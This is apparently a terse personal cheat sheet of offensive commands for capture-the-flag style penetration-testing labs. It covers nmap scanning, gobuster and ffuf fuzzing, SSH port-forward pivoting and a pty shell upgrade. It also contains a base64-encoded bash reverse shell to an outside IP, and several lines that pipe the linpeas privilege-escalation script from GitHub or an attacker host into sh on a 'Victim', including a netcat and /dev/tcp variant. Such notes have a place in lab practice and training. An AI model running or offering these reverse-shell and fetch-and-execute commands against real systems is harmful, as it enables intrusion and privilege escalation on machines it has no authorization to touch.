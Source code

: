 # prep
## Useful commands
sudo nmap -sC -sV -vv -p- 10.10.11.221

## dirs 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u domain.name

## subdomains:
gobuster vhost -u http://domain.domain \
-w ~/Downloads/subdomains \
--append-domain -t 50


ffuf -c -ac -w ~/Downloads/subdomains-10000.txt -H 'Host: FUZZ.domain.name' -u http://domainname 

## ssh pivot
ssh -L 1234:localhost:8080 rosa@10.10.11.38 
connect using localhost:1234

python3 -c 'import pty; pty.spawn("/bin/sh")'

base64
echo -n 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1' | base64 

## leanpeas path
cd /usr/share/peass/
## From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

## Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

## Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
